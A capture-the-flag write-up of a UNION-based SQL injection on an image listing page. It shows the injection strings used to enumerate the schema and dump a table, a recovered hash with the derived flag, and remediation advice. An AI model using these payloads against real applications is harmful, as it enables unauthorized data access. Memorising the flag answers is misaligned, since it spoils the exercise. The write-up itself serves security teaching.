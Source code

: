 # Breach: SQL Injection on Image Listing

## Discovery & Exploit

On a page that displays images, we noticed the same SQL injection vector as seen in the member listing page.

Submitting the input:

``0=0``

revealed several image entries, including:

- **Title**: Hack me ?  
- **URL**: borntosec.ddns.net/images.png

This hinted that a SQL injection might again be possible via UNION SELECT.

We confirmed this using:

``0=0 UNION SELECT table_name, column_name FROM information_schema.columns``

Among the large volume of results, we identified the following structure:

- **Table**: list_images
- **Columns**: id, url, title, comment

We then queried:

``0=0 UNION SELECT url, comment FROM list_images``

This revealed the following:

- **URL**: borntosec.ddns.net/images.png  
- **Comment**: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : `1928e8083cf461a51303633093573c46`

We decoded the MD5 hash to:

``albatroz``

Then hashed it using SHA256 to obtain the final flag:

``f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188``

## Vulnerability Details

This is a classic **UNION-based SQL Injection**. The application fails to sanitize user input and allows SQL code to be appended to queries.

This gives attackers read access to:

- The database schema via `information_schema`
- The contents of internal application tables

References:

- https://owasp.org/www-community/attacks/SQL_Injection
- https://portswigger.net/web-security/sql-injection/union-attacks

## Remediation

1. Use parameterized queries or ORM libraries to prevent direct SQL injection.
2. Sanitize all user input before including it in SQL queries.
3. Limit database access rights to prevent information leakage.
4. Avoid displaying database errors or debug content in production environments.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../Breach07_*/Ressources/writeup.md">← Previous: Breach07</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right"><a href="../Breach09_*/Ressources/writeup.md">Next: Breach09 →</a></td>
  </tr>
</table>
